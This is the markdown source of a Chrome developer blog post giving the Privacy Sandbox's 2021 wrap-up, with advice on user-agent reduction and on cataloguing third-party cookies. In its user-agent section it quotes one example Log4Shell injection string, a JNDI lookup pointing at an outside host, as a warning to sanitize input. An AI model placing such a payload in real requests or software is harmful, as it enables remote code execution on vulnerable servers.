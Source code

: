 ```yaml
---
title: Progress in the Privacy Sandbox (December 2021)
description: >
  Looking back at stats from 2021 and some resolutions for tackling user-agent and cookies in 2022.
layout: 'layouts/blog-post.njk'
date: 2022-01-07
authors:
  - rowan_m
hero: 'image/VWw0b3pM7jdugTkwI6Y81n6f5Yc2/Ut0IykTaEFBuOA5EHqbg.png'
alt: >
  Privacy Sandbox logo
tags:
  - progress-in-the-privacy-sandbox
  - privacy
---
```


Welcome to the 2021 wrap-up edition of **[Progress in the Privacy
Sandbox](/tags/progress-in-the-privacy-sandbox/)** tracking the milestones on
the path to phasing out third-party cookies in Chrome and working towards a more
private web. Normally, we share an overview of updates to the **[Privacy Sandbox
timeline](https://privacysandbox.com/timeline/)** along with news from across
the project, but December was a quiet month. Instead, we'll look back at some of
the activities over 2021 and provide a few potential resolutions you can make
now we are in the new year.

## Chromium development process

For a new web platform feature to land in Chromium, it needs to go through the
[project's open development
process](https://www.chromium.org/blink/launching-features). In 2021, the
Privacy Sandbox team produced:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
  <tr><td>🥚</td><td>Intent to Prototype </td>     <td>19</td></tr>
  <tr><td>🧪</td><td>Intent to Experiment</td><td>&nbsp;7</td></tr>
  <tr><td>🚀</td><td>Intent to Ship      </td>     <td>11</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

Each milestone is also an invitation for the wider web ecosystem to contribute.

An **Intent to Prototype** is the first checkpoint, where we invite discussion
and early experimentation. This means a proposal will be available on GitHub,
where **you can ask a question by creating an Issue** or **[join discussions and
presentations in standards
groups](/docs/privacy-sandbox/cds21-update/#discussion)** such as the W3C and
IETF. This is also where coding begins, which means you can **expect the
prototype functionality to be made available for developer testing behind a
[feature
flag](https://www.chromium.org/developers/how-tos/run-chromium-with-flags)**.
Initial feedback is critical for validating and iterating on proposals.

An **Intent to Experiment** is an optional step if we’d like to request an
origin trial. Developers **can [sign up for the origin
trial](/blog/origin-trials/)** of a feature, and then **test  it on your
production site**. It's called an experiment because we have specific aspects of
the feature we want to validate in real-world environments. Developers that can
**test and share the results of those tests** provide valuable feedback to help
iterate and evolve the feature.

An **Intent to Ship** is the final milestone which signals that a feature is now
complete and ready for general availability. Once approved, the feature is
merged into an upcoming release and then progresses through the Canary, Beta,
and Stable channels. It's critical to ensure you **test your sites with the
[Canary](https://www.google.com/chrome/canary/) and
[Beta](https://www.google.com/chrome/beta/) versions of Chrome** to catch and
report any bugs before a feature reaches Stable.

## Proposals

Each Privacy Sandbox proposal has an accompanying GitHub repository. A
repository hosts an explainer to summarize overall functionality, a detailed
specification for implementation by browsers, and contributions from across the
web ecosystem in the form of Issues and Pull Requests.

Across 14 Privacy Sandbox repositories, we had:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
    <tr><td rowspan="2">💬</td><td>545</td><td>Issues created</td></tr>
    <tr>                       <td>250</td><td>Issues closed</td></tr>
    <tr><td rowspan="2">🛠️</td><td>261</td><td>Pull Requests created</td></tr>
    <tr>                       <td>223</td><td>Pull Requests merged</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

The language in explainers and specifications is often targeted to an audience
already familiar with standards and browser development, which can be
challenging if you're unfamiliar with it. However, the aim of an explainer is to
explain! If there are points that are unclear or not covered, **we want you to
raise an Issue** so we can update and clarify the explainer.

## Resolutions

### User-agent spring cleaning

As we were counting _down_ to the New Year, we're also counting _up_ to both
[Chrome 100](/blog/force-major-version-to-100/) and the incremental [reduction
of the user-agent string](/docs/privacy-sandbox/user-agent/). This is a good
motivator to revisit any usage of the user-agent string in your code to check if
it's affected by either of these changes.

To find those areas:

1. Search for `navigator.userAgent` in your JavaScript code, or access to the
   `User-Agent` header in your server code.
2. Check your parsing of the string for assumptions about a 2 digit version. For
   example, a regex that specifies `\d\d` or `\d{2}` should be replaced with
   `\d+`.
3. Check your use of the string for anywhere you rely on the:
    * platform (operating system) version
    * full Chrome build version
    * mobile device name
4. These are the values that will be reduced to fixed strings in the future. If
   you need access to these values, [migrate to User-Agent Client
   Hints](https://web.dev/migrate-to-ua-ch/).

There is one December update to mention—if you are adopting User-Agent Client
Hints then we have sent the **Intent to Ship to [enable delegating hints to
other origins in
HTML](https://groups.google.com/a/chromium.org/g/blink-dev/c/JQ68cvYuiQU/m/S_33YSqxCwAJ)**
via a `<meta>` tag, for example:

```html
<meta name="accept-ch" content="sec-ch-ua-model=( https://foo.bar )">`
```

If you're in an enthusiastic spring cleaning mood, you can also consider
alternatives to the use of user-agent altogether. If you're using the string to
detect mobile devices, then investigate if you can replace this with responsive
design. If you're checking the browser name and version for feature support, see
if you can use feature detection instead.

It's always worth remembering that the user-agent, like any client provided
value, is not guaranteed to be accurate or even provided. The recent [Log4j
vulnerability, "Log4shell"](https://logging.apache.org/log4j/2.x/security.html)
provides an example of this risk. A client that sets its user-agent string to
include a value like `${jndi:ldap://example.com/file}` may be able to get a site
to actively parse that on the server. It's critical that you treat user-agent in
the same way as any other form of user input: sanitize and validate it before
acting on the value.

### Cookie cataloguing

Another traditional new year activity is to make sure you're happy you have a
healthy number of cookies with quality ingredients. As we continue moving
towards the phase out of third-party cookies, you should make sure you know
which of your site's cookies will be affected. 2020 provided a headstart as it
became necessary to [mark all cookies for cross-site or third-party
use](https://web.dev/samesite-cookies-explained/#samesitenone-must-be-secure)
with `SameSite=None`. 

Any cookie where you have set the `SameSite` attribute to `None` will need an
update.

There are three possible routes to consider at the moment:

1. If the cookie is only required in a 1:1 relationship with the top-level site,
   then follow the progress of the **[CHIPS
   proposal](https://github.com/WICG/CHIPS)**. This will mean adding the
   `Partitioned` attribute to the cookie.
2. If the cookie is used in a cross-site context, but only across sites that you
   own and operate, then it may be a candidate for **[First-Party
   Sets](/docs/privacy-sandbox/first-party-sets/)**. This requires defining the
   sites in the set and adding the `SameParty` attribute to the cookie.
3. If the cookie is used to provide some form of shared value across multiple
   sites, investigate the wider set of [Privacy Sandbox
   proposals](/docs/privacy-sandbox/) for an alternative solution that does not
   rely on cross-site tracking.

If you're feeling especially health-conscious, then this is also an ideal time
to revisit all of your cookie usage, as we have a good recipe to improve your
first-party cookies too.

{% YouTube id='1g2uQfP1Q3U' %}

## Feedback

As we continue to publish these monthly updates, and progress through the
Privacy Sandbox as a whole, we want to make sure that developers receive the
information and support that they need. Let us know on [@ChromiumDev
Twitter](https://twitter.com/ChromiumDev) if there's anything that we could
improve in this series. We'll use your input to continue improving the format.

Check out the **[Privacy Sandbox FAQ](/docs/privacy-sandbox/faq/)**, which we
continue to expand based on the issues you submit to the [developer support
repo](https://github.com/GoogleChromeLabs/privacy-sandbox-dev-support). If you
have any questions around testing or implementation on any of the proposals,
come talk to us there.
